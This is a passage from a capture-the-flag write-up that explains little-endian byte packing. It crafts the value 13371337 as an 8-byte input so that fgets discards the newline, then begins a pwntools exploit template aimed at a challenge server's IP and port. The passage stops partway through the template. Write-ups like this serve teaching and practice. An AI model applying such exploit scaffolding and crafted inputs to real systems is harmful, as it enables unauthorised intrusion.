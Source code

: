 But the way data is stored is in `little endian` convention. So the data is write:
```
0x000A61
```

And `0x0A61` is `2657` in decimal. an that is why we see that value when we get the data in integer mode.

Now we want to do the reverse thing. That measn that writing in `string` variable and when it reads like `integer` we get `13371337`

So we could convert the 

```python
>>>➊hex(13371337)
'0xcc07c9'
>>>➋(13371337).to_bytes(3,'big')
b'\xcc\x07\xc9'
>>>➌(13371337).to_bytes(3,'little')
b'\xc9\x07\xcc'
>>>➍(13371337).to_bytes(8,'little')
b'\xc9\x07\xcc\x00\x00\x00\x00\x00'
```

We can convert the `13371337` to hex ➊ but by default if convert it in `big endian` notation (due to this is the default and usual notation) if  we convert the int to bytes we can specify the notation, at ➋ I convert it to `big endian` notation using 3 bytes an we get the same convertion (well exactly the same not, because here we get a bytes data, with `hex()` we get a string instead. But I refer to the hex values). and at ➌ you can see that if I change to a `little endian` notation now the hex values are in reverse orden. But somenthing is still missing at this point, and that is that you have to consider the break line `\n` you see that it write the byte `0x0a` . It means ti would be `c907cc0a` and with that value we cant send exactly the `c907cc` bytes, but remember that the `fgets()` was configurated to recieve until `32 bytes` so if we send `c907cc0000000000`  like at ➍ `fgets` take `c907cc00000000000a` but when copy data to the `string` variable only copy `8 bytes` so the `0a` will be ingored!

I am gonna write a Python script using  Pwntools to send the bytes:.

With pwntools we can to have a template to start to work :

```shell
magor$ pwn template ./entity --host 159.65.49.148 --port 32250 > solve_entity.py
```

That create a template file like this:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template ./entity --host 159.65.49.148 --port 32250
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./entity')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or '159.65.49.148'
port = int(args.PORT or 32250)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
```